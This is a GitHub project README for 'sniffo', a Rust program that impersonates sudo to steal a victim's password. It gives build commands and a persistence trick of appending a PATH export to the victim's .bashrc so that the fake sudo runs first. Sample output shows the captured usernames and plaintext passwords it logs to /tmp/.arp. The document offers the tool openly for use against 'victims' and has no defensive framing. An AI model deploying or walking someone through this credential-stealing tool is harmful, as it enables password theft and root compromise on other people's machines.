 _____________________________________________
![maxresdefault](https://github.com/0x00snape/sniffo/assets/144463175/afb47203-665c-43d8-b627-ae0fd9a91f4c)
______________________________________________
# sniffo
sniffo steals a victims password by camouflaging as sudo without any suspicion,  potentially enabling privilege escalation for root access and stores both correct and incorrect password entries at <code>/tmp/.arp</code>.

## Usage
```bash
:$ git clone https://github.com/0x00snape/sniffo.git
:$ cd sniffo
:$ cargo build --release
:$ ./sudo ls
```
## Privilege Escalation 
```bash
victim:$ cargo build --release --target-dir ~/.arp
victim:$ echo 'export PATH="$HOME/.arp/release:$PATH"' >> $HOME/.bashrc
```
## OR
simply add <code>export PATH="$HOME/.arp/release:$PATH</code> in victims <code>.bashrc</code><br>
## Retrieving Password
```bash
victim:$ cat /tmp/.arp
SUDO Credential Intercepted
Username: victim
Password: test123
Arguments: ls
Status: 1

Username: victim
Password: secretpass
Arguments: ls
Status: 0
```
<em>Note: Status code <code>0</code> means <code>sucess</code> and <code>1</code> means <code>failure</code> also remember to check arguments some victims can enters shell build-in command with <code>sudo</code> it's status code also <code>1</code></em><br>Eg:<code>victim:$ sudo cd</code>
```bash
victim:$ cat /tmp/.arp
SUDO Credential Intercepted
Username: victim
Password: secretpass
Arguments: cd
Status: 1
```
## Issue 
The error message "linker cc not found" indicates the compiler cannot locate the cc linker, typically a symlink to the system's C compiler (gcc or clang).

## License
This project is licensed under [MIT](https://github.com/0x00snape/sniffo/blob/main/LICENSE)
